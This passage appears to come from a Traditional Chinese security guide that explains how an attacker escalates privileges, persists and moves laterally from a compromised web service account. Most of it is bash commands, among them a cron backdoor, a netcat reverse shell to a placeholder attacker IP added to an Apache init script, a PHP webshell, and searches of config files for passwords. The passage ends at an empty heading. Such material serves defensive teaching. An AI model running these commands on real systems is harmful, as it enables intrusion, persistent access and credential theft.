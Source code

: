 #### 2. 權限提升路徑
**常見提權方式：**

**A. 利用sudo配置錯誤**
```bash
# 檢查sudo權限
sudo -l
# 可能發現類似配置：
# www-data ALL=(ALL) NOPASSWD: /usr/bin/systemctl restart apache2
# 攻擊者可能利用systemctl的GTFOBins提權
```

**B. 利用SUID程序**
```bash
# 尋找SUID程序
find / -perm -4000 -type f 2>/dev/null
# 利用find、vim等SUID程序提權
```

**C. 利用crontab和服務配置**
```bash
# 檢查可寫的配置文件
find /etc -writable -type f 2>/dev/null
# 修改服務配置文件，等待服務重啟時執行惡意代碼
```

#### 3. 持久化攻擊
**建立後門：**
```bash
# 在服務帳號下建立定時任務
(crontab -l ; echo "* * * * * /tmp/backdoor.sh") | crontab -

# 修改服務啟動腳本
echo "nc -e /bin/bash 攻擊者IP 4444 &" >> /etc/init.d/apache2

# 在網頁目錄建立webshell
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
```

#### 4. 橫向移動
**內網滲透：**
```bash
# 掃描內網
nmap -sn 192.168.1.0/24

# 查看網絡配置和連接
netstat -antup
ss -tulpn

# 查看其他服務的配置文件，尋找密碼
grep -r "password" /etc/
find /var -name "*.conf" -exec grep -l "password" {} \;
```

### 實際攻擊場景範例
